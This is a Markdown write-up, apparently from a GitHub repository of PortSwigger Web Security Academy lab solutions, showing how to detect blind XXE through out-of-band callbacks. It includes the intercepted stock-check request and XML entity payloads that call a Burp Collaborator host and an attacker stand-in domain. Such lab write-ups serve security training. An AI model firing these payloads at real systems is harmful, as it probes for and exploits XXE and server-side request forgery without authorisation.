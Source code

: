 # Lab-03 Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e335081d-5111-4ef9-9834-635686615b4b)

## Overview :

 You can often detect blind XXE using the same technique as for XXE SSRF attacks but **triggering the out-of-band network interaction** to a system that you control. For example, you would define an external entity as follows:

 ```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```
You would then make use of the defined entity in a data value within the XML.

This XXE attack causes the server to make a back-end HTTP request to the specified URL. The attacker can monitor for the resulting DNS lookup and HTTP request, and thereby detect that the XXE attack was successful. 

## Solution :

Clicking on checkstock feature send the following request, 

```xml
POST /product/stock HTTP/1.1
Host: 0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Cookie: session=N7UKKawFN8qZnb8SyEtJbdm5XyhRWxmQ
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net/product?productId=1
Content-Type: application/xml
Content-Length: 107
Origin: https://0a5500920363ef3783ca2e3900dd000f.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
<stockCheck>
  <productId>1</productId>
  <storeId>1</storeId>
</stockCheck>
```
To solve the lab we need to make an out bound request to our collaborator server to solve the lab.

For this we can use the following payload

```xml
<!DOCTYPE root [<!ENTITY  % ext SYSTEM "http://burp-collaborator.net/">]>
<stockCheck>
  <productId>%ext;</productId>
  <storeId>1</storeId>
</stockCheck>
```
But in the response we get an error stating that - `Entities are not allowed for security reasons`

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a2461887-1d9d-4e37-9f22-e50e9408f8f1)


So instead of using parameterized entities, we use normal entities.


![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/1b1f7d98-e276-4a1b-93d4-a482156e5b5f)

The response states - `Invalid product ID` which is an indicator that there is no productID but still the application may have parsed the entity and made out-bound request to our burp collaborator server.

Now in our collaborator server, we can see that we have some DNS & HTTP requests made .

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4a0f5ffc-ce18-4fe1-8994-82cba789bd05)


We have thus solved the lab.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/cfaf31b9-e432-41a6-b2da-a421c027dfdd)








